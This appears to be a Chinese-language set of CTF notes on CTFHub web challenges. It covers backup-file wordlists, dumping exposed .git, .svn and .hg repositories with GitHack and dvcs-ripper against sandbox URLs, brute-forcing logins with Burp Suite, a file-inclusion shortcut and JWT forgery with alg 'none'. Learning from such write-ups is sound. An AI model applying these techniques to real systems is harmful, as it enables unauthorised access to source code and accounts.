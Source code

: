 # 信息泄露
使用 `dirsearch.py`, 可以直接安装(需要依赖`setuptools`)
```
pip install dirsearch setuptools
dirsearch -u ${url}
```

## 备份文件下载
可以通过在 `url` 中添加备份文件路径来下载备份文件。常见地址如下：
```
index.php.bak
.index.php.swp

web.tar
web.tar.gz
web.zip
web.rar

website.tar
website.tar.gz
website.zip
website.rar

backup.tar
backup.tar.gz
backup.zip
backup.rar

back.tar
back.tar.gz
back.zip
back.rar

www.tar
www.tar.gz
www.zip
www.rar

wwwroot.tar
wwwroot.tar.gz
wwwroot.zip
wwwroot.rar

temp.tar
temp.tar.gz
temp.zip
temp.rar
```


## Git 泄露

一定要用 `BugScanTeam/GitHack`，git clone 后使用 python2 打开。
```
C:\Python27\python.exe .\GitHack\GitHack.py http://challenge-043212857b4db3fb.sandbox.ctfhub.com:10800/.git
```

下载后使用以下命令查看文件变化
```
git log
git diff ${commit}
git checkout ${commit}
git stash pop
```

## SVN 泄露
用 dirsearch 扫描目录查看是否有 .svn
需要用到 perl, 这里建议安装 wsl 后直接在虚拟机 ubuntu 中运行：
```sh
# 下载 dvcs-ripper
git clone https://github.com/kost/dvcs-ripper.git
# 安装依赖
sudo apt-get install perl libio-socket-ssl-perl libdbd-sqlite3-perl libclass-dbi-perl libio-all-lwp-perl
# 使用 rip
./rip-svn.pl -v -u http://challenge-7f8cf35aab6a769d.sandbox.ctfhub.com:10800/.svn/
# 安装依赖 tree 来查看目录
sudo apt install tree
tree
# 使用 cat 查看文件
cat ${./xxx/flag}
```

## Hg 泄露
还是使用 dirsearch 查看到有 .hg 文件夹
然后使用 dvcs-ripper 下载 .hg 文件夹
```sh
./dvcs-ripper/rip-hg.pl -v -u http://challenge-5cff321a7eb51aaf.sandbox.ctfhub.com:10800/.hg
# 使用 grep 抓取目录文件名
rep -a -r flag
# 找到目录文件名后，直接访问 url+'/'+文件名
http://challenge-5cff321a7eb51aaf.sandbox.ctfhub.com:10800/flag_2041319478.txt
```

## 密码口令
建议使用 burpsuit 来爆破（不容易出现 503）
多个payload需要选择爆破模式（Cluster Bomb）

# php

## easy_include
直接在url中加上 /?inc=/flag

## JWT

Header.Payload.Signature

每部分都是 base64 编码。

Header: {"typ":"JWT","alg":"HS256"}
Payload: {"username":"admin","password":"password","role":"admin"}
Signature: 签名

可以尝试使用 alg:'none', Signature 空着来作为自己的 jwt

